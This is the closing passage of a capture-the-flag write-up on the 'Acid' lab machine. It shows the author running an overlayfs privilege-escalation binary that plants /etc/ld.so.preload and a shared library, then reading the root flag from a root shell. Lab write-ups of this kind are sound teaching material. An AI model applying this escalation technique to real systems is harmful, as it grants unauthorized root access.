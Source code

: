 ```
exit
```

Ah! There seems to be an interesting executable, `/bin/overlayfs`. Perhaps the one I'm looking for?

```
makke@acid:~$ /bin/overlayfs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cat /root/.flag.txt
Dear Hax0r,

You have completed the Challenge Successfully.

Your Flag is : "Black@Current@Ice-Cream"

Kind & Best Regards

-ACiD

Twitter:https://twitter.com/m_avinash143
Facebook: https://www.facebook.com/M.avinash143
LinkedIN: https://in.linkedin.com/pub/avinash-thapa/101/406/4b5
```

Success!

![8]


[1]: https://en.wikipedia.org/wiki/Port_knocking "Port knocking on Wikipedia"
[2]: files/img/webpage.png "Webpage"
[3]: files/img/dirbuster.png "Dirbuster"
[4]: files/img/bin.png "/bin page"
[5]: files/img/dashboard_error.png "Dashboard - error"
[6]: files/img/burp.png "burp"
[7]: files/img/dashboard_success.png "Dashboard - success"
[8]: files/img/success.jpg "Lolcat success"
